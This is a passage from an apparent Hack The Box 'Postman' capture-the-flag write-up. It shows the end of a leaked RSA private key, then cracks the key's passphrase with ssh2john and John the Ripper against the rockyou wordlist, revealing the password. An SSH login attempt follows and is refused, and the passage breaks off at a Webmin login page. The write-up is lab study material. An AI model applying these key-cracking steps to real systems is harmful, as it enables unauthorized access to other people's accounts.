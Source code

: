 X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
{% endhighlight %}

With this private `ssh` key, we could try to `ssh` as `Matt`.
{% highlight bash %}
$ ssh -i id_rsa.bak Matt@postman.htb
Enter passphrase for key 'id_rsa.bak':
{% endhighlight %}

Seems like we need a passphrase. Lets see if we can crack it with `john`. 

{% highlight bash %}
$ python ssh2john.py id_rsa.bak > matt.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt matt.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (matt)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2019-12-31 05:57) 0.2083g/s 2987Kp/s 2987Kc/s 2987KC/sa6_123..*7¡Vamos!
Session completed

{% endhighlight %}

With the passphrase, lets try to `ssh` as `Matt` again.

{% highlight bash %}
$ ssh -i id_rsa.bak Matt@postman.htb
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
{% endhighlight %}

What is going on? We are immediately getting disconnected. After some trials, I kind of gave up and decided to move on to the next service at port `10000`.

![](/assets/images/postman3.png)

Hmm lets shift to `HTTPS`. We are immediately greeted with a login page. 
